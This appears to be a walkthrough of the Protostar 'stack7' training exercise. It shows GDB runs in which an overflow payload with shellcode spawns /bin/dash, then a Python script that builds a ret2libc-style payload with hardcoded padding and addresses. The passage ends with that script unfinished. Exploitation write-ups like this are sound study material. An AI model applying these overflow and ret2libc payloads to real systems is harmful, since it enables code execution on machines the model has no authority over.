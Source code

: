 Amazingly, look what happened in GDB!!

```
$ python /tmp/stack7.py > /tmp/stack7
$ gdb stack7
GNU gdb (GDB) 7.0.1-debian
Copyright (C) 2009 Free Software Foundation, Inc.
License GPLv3+: GNU GPL version 3 or later <http://gnu.org/licenses/gpl.html>
This is free software: you are free to change and redistribute it.
There is NO WARRANTY, to the extent permitted by law.  Type "show copying"
and "show warranty" for details.
This GDB was configured as "i486-linux-gnu".
For bug reporting instructions, please see:
<http://www.gnu.org/software/gdb/bugs/>...
Reading symbols from /opt/protostar/bin/stack7...done.
(gdb) r < /tmp/stack7
Starting program: /opt/protostar/bin/stack7 < /tmp/stack7
input path please: got path AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA�AAAAAAAAAAAA�BBBB��������������������������������������������1�Ph//shh/bin��PS��

Executing new program: /bin/dash

Program exited normally.
```

We can see that the payload worked, and we were able to ROP  our way into a "/bin/dash", which naturally quit our instantly. Let's try it outside of GDB and see what happens:

```
$ python /tmp/stack7.py | ./stack7
input path please: got path AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA�AAAAAAAAAAAA�BBBB��������������������������������������������1�Ph//shh/bin��PS��

Illegal instruction
```

... 0____o ...

Well, could this be padding like before? Let's extend our NOP sled a bit, and offset our return address too just incase the offsets in the debugger were breaking our payload.

<i>A change of plan</i>

After embarrassingly failing the above, I moved on with my life and wanted to try and get my original assumption working, because in theory... I should be able to re-purpose my ret2libc exploit from stack6. But instead of returning to libc, I initially return into the ret2libc payload... ultimately, my exploit will digivolve (best show) into a ret2ret2libc attack... right?

My attempted payload for this was the original stack6.py script + a new return address as commented below:

```
import struct
def build():
    libc_base = 0xb7e97000
    binsh_offset = 0x11f3bf

    ret_addr = 0x08048544 # getpath() ret
    string_addr = libc_base + binsh_offset
    system_addr = 0xb7ecffb0
    exit_addr = 0xb7ec60c0

    padding = 'A' * 80

    payload = padding
    payload += struct.pack("I", ret_addr)
    payload += struct.pack("I", system_addr)
    payload += struct.pack("I", exit_addr)
    payload += struct.pack("I", string_addr)
```